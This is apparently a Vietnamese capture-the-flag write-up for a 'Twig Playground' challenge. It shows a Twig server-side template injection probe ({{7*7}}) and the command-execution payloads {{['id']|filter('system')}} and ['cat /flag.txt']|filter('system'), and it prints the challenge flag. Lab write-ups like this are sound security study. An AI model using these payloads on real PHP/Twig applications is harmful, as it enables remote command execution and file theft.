

# Twig Playground
Như tên bài thì bài này dùng template twig để liên kết code PHP ở backend với frontend

Từ source code được cung cấp ta thấy code sẽ duyệt qua các item và hiện thị tại frontend 

Mình thừ payload "{{7*7}}" để thử kiểm tra và thành công

Google thử thì có được payload thực hiện lệnh là *{{['id']|filter('system')}}*

Vì biết file flag.txt nằm trong thư mục gốc lên payload sẽ là *['cat /flag.txt']|filter('system')*
*Flag: CHH{Tw1g_Pl4ygrOund_d4cef9ec78c7cdffa171197d83bbf5c0}*